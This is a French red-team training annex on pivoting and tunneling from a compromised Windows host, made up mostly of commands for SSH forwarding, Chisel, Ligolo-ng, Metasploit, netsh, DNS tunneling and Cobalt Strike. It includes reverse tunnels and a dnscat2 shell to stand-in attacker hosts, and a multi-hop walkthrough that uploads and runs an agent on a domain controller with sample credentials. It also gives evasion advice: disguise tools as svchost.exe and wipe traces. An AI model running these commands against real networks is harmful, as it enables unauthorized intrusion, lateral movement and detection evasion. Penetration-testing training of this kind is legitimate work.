



---
tags:
  - formation
  - security
  - windows
  - pivoting
  - tunneling
  - lateral-movement
  - red-team
---

# Pivoting & Tunneling Avancé

Cette annexe couvre les techniques avancées de pivot et tunneling pour accéder aux réseaux internes depuis une machine compromise.

!!! warning "Prérequis"
    Avant le pivoting, vous devez avoir :

    - Un premier accès (shell/beacon) sur une machine du réseau
    - Compris la topologie réseau (segments, VLANs)
    - Identifié les cibles internes non accessibles directement

---

## Vue d'Ensemble - Pivoting Strategies



---

## 1. SSH Tunneling

### 1.1 Local Port Forwarding

Accéder à un service interne via la machine compromise.

```bash
# Syntaxe
ssh -L [local_port]:[target_host]:[target_port] user@pivot_host

# Exemple: Accéder au RDP du DC (10.0.0.10:3389) via le pivot
ssh -L 3389:10.0.0.10:3389 user@pivot.example.com

# Connexion RDP locale (redirigé vers le DC)
rdesktop localhost:3389
```



### 1.2 Remote Port Forwarding

Exposer un port local de l'attaquant vers le réseau interne.

```bash
# Syntaxe
ssh -R [remote_port]:[local_host]:[local_port] user@pivot_host

# Exemple: Exposer mon listener (4444) sur le pivot
ssh -R 4444:localhost:4444 user@pivot.example.com

# Les machines internes peuvent maintenant se connecter à pivot:4444
```

### 1.3 Dynamic Port Forwarding (SOCKS Proxy)

Créer un proxy SOCKS pour router tout le trafic.

```bash
# Créer le proxy SOCKS5
ssh -D 9050 user@pivot.example.com

# Configurer proxychains
echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf

# Utiliser n'importe quel outil via le proxy
proxychains nmap -sT -Pn 10.0.0.0/24
proxychains crackmapexec smb 10.0.0.10
```

### 1.4 SSH ProxyJump (Multi-hop)

```bash
# Sauter à travers plusieurs machines
ssh -J user@jump1,user@jump2 user@final_target

# Configuration ~/.ssh/config
Host internal-dc
    HostName 10.0.0.10
    User administrator
    ProxyJump user@dmz-server

# Puis simplement
ssh internal-dc
```

---

## 2. Chisel

Outil HTTP tunneling écrit en Go, très populaire en pentest.

### 2.1 Installation

```bash
# Télécharger les releases
# https://github.com/jpillora/chisel/releases

# Ou compiler
go install github.com/jpillora/chisel@latest
```

### 2.2 Reverse SOCKS Proxy

```bash
# Sur l'attaquant (server)
./chisel server -p 8080 --reverse

# Sur la cible (client) - Windows
chisel.exe client ATTACKER_IP:8080 R:socks

# Résultat: SOCKS5 proxy sur localhost:1080
proxychains4 nmap -sT 10.0.0.0/24
```

### 2.3 Port Forwarding

```bash
# Attaquant: server
./chisel server -p 8080 --reverse

# Cible: forward le port 3389 du DC vers l'attaquant
chisel.exe client ATTACKER_IP:8080 R:3389:10.0.0.10:3389

# L'attaquant peut maintenant:
rdesktop localhost:3389
```

### 2.4 Multiple Tunnels

```bash
# Plusieurs forwards en une connexion
chisel.exe client ATTACKER_IP:8080 R:socks R:3389:DC:3389 R:445:DC:445

# Résultat:
# - SOCKS5 sur :1080
# - RDP DC sur :3389
# - SMB DC sur :445
```

---

## 3. Ligolo-ng

Tunneling avancé avec interface réseau virtuelle.

### 3.1 Concept

Ligolo-ng crée une interface TUN pour un routage transparent, sans avoir besoin de proxychains.



### 3.2 Setup

```bash
# Sur l'attaquant - Créer interface TUN
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Lancer le proxy
./proxy -selfcert -laddr 0.0.0.0:11601

# Sur la cible (Windows)
agent.exe -connect ATTACKER_IP:11601 -ignore-cert
```

### 3.3 Utilisation

```bash
# Dans le proxy ligolo-ng
ligolo-ng » session
? Specify a session: 1 - YOURPIVOT@10.0.0.50

# Ajouter une route vers le réseau interne
ligolo-ng » ifconfig
[+] Agent IP: 10.0.0.50/24

ligolo-ng » start

# Sur l'attaquant (nouveau terminal)
sudo ip route add 10.0.0.0/24 dev ligolo

# Maintenant, accès DIRECT au réseau interne
nmap -sT 10.0.0.10  # Pas besoin de proxychains!
ssh admin@10.0.0.10
crackmapexec smb 10.0.0.0/24
```

### 3.4 Double Pivot

```bash
# Depuis le premier pivot, lancer un agent vers le second segment
# Agent 1 sur pivot1 -> voit 10.0.0.0/24
# Agent 2 sur pivot2 (10.0.0.50) -> voit 192.168.1.0/24

# Sur l'attaquant
sudo ip route add 10.0.0.0/24 dev ligolo
sudo ip route add 192.168.1.0/24 dev ligolo
```

---

## 4. Metasploit Pivoting

### 4.1 Autoroute

```bash
# Dans une session Meterpreter
meterpreter > run autoroute -s 10.0.0.0/24

# Ou via post module
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 10.0.0.0
run

# Vérifier les routes
meterpreter > run autoroute -p
```

### 4.2 SOCKS Proxy

```bash
# Lancer un proxy SOCKS
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 5
run

# Configurer proxychains
proxychains nmap -sT 10.0.0.10
```

### 4.3 Port Forwarding

```bash
# Forward local
meterpreter > portfwd add -l 3389 -p 3389 -r 10.0.0.10

# Forward inversé (listener sur le pivot)
meterpreter > portfwd add -R -l 4444 -p 4444 -L 0.0.0.0
```

---

## 5. Windows Native Pivoting

### 5.1 Netsh Port Forwarding

```powershell
# Forwarder le port 3389 du DC vers localhost
netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=10.0.0.10

# Vérifier
netsh interface portproxy show all

# Supprimer
netsh interface portproxy delete v4tov4 listenport=3389 listenaddress=0.0.0.0

# Firewall rule (si nécessaire)
netsh advfirewall firewall add rule name="pivot" dir=in action=allow protocol=tcp localport=3389
```

### 5.2 SSH Windows (OpenSSH)

```powershell
# Windows 10/11 et Server 2019+ ont OpenSSH intégré
# Dynamic port forwarding
ssh -D 9050 -N user@target

# Local port forwarding
ssh -L 3389:10.0.0.10:3389 -N user@pivot
```

### 5.3 Plink (PuTTY)

```powershell
# Si OpenSSH non disponible
# Reverse SOCKS proxy
plink.exe -R 9050 user@attacker_ip

# Port forward
plink.exe -L 3389:10.0.0.10:3389 user@pivot_host
```

---

## 6. DNS Tunneling

### 6.1 Avec Dnscat2

```bash
# Attaquant: Server
dnscat2-server tunnel.attacker.com

# Cible: Client
dnscat2.exe --dns server=tunnel.attacker.com,type=TXT

# Créer un tunnel
dnscat2 > session -i 1
command (session) > shell
```

### 6.2 Avec Iodine

```bash
# Attaquant: Server
sudo iodined -f -c -P password 10.0.0.1 tunnel.attacker.com

# Cible: Client
iodine -f -P password tunnel.attacker.com

# Résultat: Interface dns0 avec IP 10.0.0.x
# Tunnel IP over DNS
```

---

## 7. Cobalt Strike Pivoting

### 7.1 SOCKS Proxy

```
# Beacon interactif
beacon> socks 9050

# Utiliser depuis l'attaquant
proxychains crackmapexec smb 10.0.0.0/24
```

### 7.2 Reverse Port Forward

```
# Ouvrir un port sur le beacon qui forward vers l'attaquant
beacon> rportfwd 8080 127.0.0.1 80

# Les machines internes peuvent joindre beacon:8080 -> attaquant:80
```

### 7.3 Listener Pivoting

```
# Créer un listener sur le beacon
# Listeners > Add > Beacon TCP / SMB

# Les nouveaux implants dans le réseau interne
# passent par le beacon existant
```

---

## 8. Scénario Complet - Multi-hop Pivot

### 8.1 Architecture

```
Internet --> DMZ (10.0.1.0/24) --> Internal (10.0.2.0/24) --> Secure (10.0.3.0/24)
    |
    v
Attacker                        Web Server              DC              DB Server
(192.168.1.100)               (10.0.1.50)           (10.0.2.10)       (10.0.3.20)
```

### 8.2 Étape par Étape

```bash
# 1. Compromission du Web Server (10.0.1.50)
# Établir le premier pivot avec Chisel

# Attaquant
./chisel server -p 8080 --reverse

# Web Server (10.0.1.50)
./chisel client 192.168.1.100:8080 R:socks

# 2. Scanner le réseau Internal via SOCKS
proxychains nmap -sT -Pn 10.0.2.0/24

# 3. Compromission du DC (10.0.2.10)
# Utiliser Ligolo-ng pour un accès plus fluide

# Attaquant
./proxy -selfcert -laddr 0.0.0.0:11601

# Via le SOCKS proxy, uploader l'agent sur le DC
proxychains smbclient //10.0.2.10/c$ -U admin
put agent.exe

# Exécuter l'agent (via WinRM par exemple)
proxychains evil-winrm -i 10.0.2.10 -u admin -p 'Password123'
*Evil-WinRM* > C:\agent.exe -connect 192.168.1.100:11601 -ignore-cert

# 4. Configurer le routage
sudo ip route add 10.0.2.0/24 dev ligolo
sudo ip route add 10.0.3.0/24 dev ligolo

# 5. Accéder au DB Server (10.0.3.20) directement
nmap -sT 10.0.3.20
mssqlclient.py sa@10.0.3.20
```

---

## 9. OpSec Considerations

### 9.1 Réduire le Bruit

| Technique | Bruit Réseau | Détection | Recommandation |
|-----------|--------------|-----------|----------------|
| SSH Tunnel | Faible | SSH anormal | Utiliser port 443 |
| Chisel HTTP | Faible | Possible via proxy | Blend avec trafic légitime |
| DNS Tunnel | Très faible | Requêtes DNS anormales | Lent, backup option |
| Meterpreter | Élevé | Signatures connues | Éviter en environnement monitoré |

### 9.2 Indicateurs à Éviter

```
# À NE PAS FAIRE
- Tunnels sur ports suspects (4444, 31337, etc.)
- Trop de connexions simultanées
- Trafic constant sans pause
- Outils non renommés (chisel.exe, ligolo-agent.exe)

# BONNES PRATIQUES
- Utiliser HTTPS/443 quand possible
- Implémenter du jitter dans les communications
- Renommer les binaires (svchost.exe, update.exe)
- Nettoyer les traces après usage
```

### 9.3 Nettoyage

```powershell
# Supprimer les règles netsh
netsh interface portproxy reset

# Supprimer les règles firewall ajoutées
netsh advfirewall firewall delete rule name="pivot"

# Vérifier les processus suspects
Get-Process | Where-Object {$_.Path -like "*temp*" -or $_.Path -like "*public*"}
```

---

## 10. Cheatsheet Rapide

### SSH

```bash
ssh -D 9050 user@pivot                    # SOCKS proxy
ssh -L 3389:target:3389 user@pivot        # Local forward
ssh -R 4444:localhost:4444 user@pivot     # Remote forward
ssh -J user@jump user@target              # ProxyJump
```

### Chisel

```bash
# Server
./chisel server -p 8080 --reverse

# Client
./chisel client ATTACKER:8080 R:socks
./chisel client ATTACKER:8080 R:3389:DC:3389
```

### Ligolo-ng

```bash
# Setup
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# Route après connexion agent
sudo ip route add 10.0.0.0/24 dev ligolo
```

### Metasploit

```bash
run autoroute -s 10.0.0.0/24
portfwd add -l 3389 -p 3389 -r 10.0.0.10
use auxiliary/server/socks_proxy
```

---

## Références

- [Chisel](https://github.com/jpillora/chisel)
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)
- [SSH Tunneling Guide](https://www.ssh.com/academy/ssh/tunneling)
- [Pivoting Guide - HackTricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)

---

[Retour au Programme](index.md){ .md-button }
[Detection Engineering →](detection-engineering.md){ .md-button .md-button--primary }
